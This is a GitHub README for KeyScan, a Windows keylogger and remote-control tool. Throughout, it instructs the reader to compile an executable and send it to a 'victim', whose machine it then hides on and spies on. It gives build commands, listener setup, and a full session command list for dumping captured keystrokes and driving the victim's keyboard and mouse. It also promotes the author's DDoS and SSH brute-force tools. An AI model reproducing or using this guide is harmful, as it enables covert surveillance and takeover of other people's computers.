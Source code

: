 # KeyScan
KeyScan is a C++ open source explanation tool targeting windows operating system. it allows you to send keyboard events, mouse events and capture keystrokes (keylogger).!

Before you keep on reading please support my hard work by leaving a star and follow up if you want me to keep creating hacking tools like this.!!
# Disclaimer
It should be highly noted that this tool wasn't made with the intention to make or cause any damages or any illegal usage. By using KeyScan you accept that you'll be held responsible for improper usage and not the author.

# Features
* The program runs just like every other programs so no need to bypass any antivirus software or window defender ✅️.
* Control keyboard remotely ✅️.
* Control mouse remotely ✅️.
* Keylogging ✅️.
* Automatically hide the exe file on first run ✅️
* The window is hidden to victim but still visible in the task manager.  ✅️

# Features working on
* SSL/TLS ❌️
* Shell features ❌️

# How does it work.?!
In this repository, the folder [keyscan](keyscan) contains the source codes that needs to be compiled before sending it to the victim. Just install the requirements and KeyScan will automatically compile it for you.!!
When the victim opens the malicious executable file, the window will be invisible to the victim and the program will also make itself hidden (meaning it will make the executable file hidden). At the other side the attacker will be waiting for the victim to open the file, after opened, then a session is opened.

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Screenshots
![test](screenshots/keyscan2.png)
![keyscan](screenshots/keyscan3.PNG)

# Requirements
* GCC and mingw-w64 on Linux and Termux
* MinGW on Windows

# Installation on Linux and Termux
```
git clone https://github.com/4anonz/KeyScan.git
cd KeyScan
g++ main.cpp -o keyscn
./keyscn
```
# Installation on Windows
```
g++ main.cpp -o keyscn.exe -lws2_32
.\keyscn.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git
cd mingw-w64
./configure --prefix=$PREFIX --without-crt
DESTDIR=$PREFIX make install
```
# How to use KeyScan?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs be send to the victim.
# KeyScan Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program

SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```
# Author
Anonymous Hacks(4anoz) - I'm White Hat😎️.
# Bugs Feedback & Suggestions
Please reports any bugs found, you can personally send me <a href="mailto:digitalguru64@gmail.com" target="_blank">email</a>
Or [facebook](https://facebook.com/4anonz)

# Other repositories
DDoS script: https://github.com/4anonz/Flood
Network packet sniffer: https://github.com/4anonz/packt
SSH Auditing and brute force: https://github.com/4anonz/SSHCred
